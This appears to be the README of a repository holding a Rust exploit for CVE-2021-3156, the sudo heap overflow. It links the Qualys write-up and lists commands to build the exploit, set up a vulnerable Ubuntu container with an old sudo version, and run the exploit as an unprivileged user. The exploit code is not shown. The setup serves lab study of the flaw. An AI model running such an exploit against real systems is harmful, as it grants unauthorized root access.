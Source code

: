 # CVE-2021-3156

Original blog post: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit

## Setup

```shell
$ make payload
$ make exploit
$ docker run --rm -ti -v `pwd`:/exploit ubuntu:focal-20210401
apt update && apt install sudo=1.8.31-1ubuntu1
adduser \
    --disabled-password \
    --gecos "" \
    --shell "/bin/bash" \
    "bhr"
su bhr
cd /exploit
./rust_exploit
```
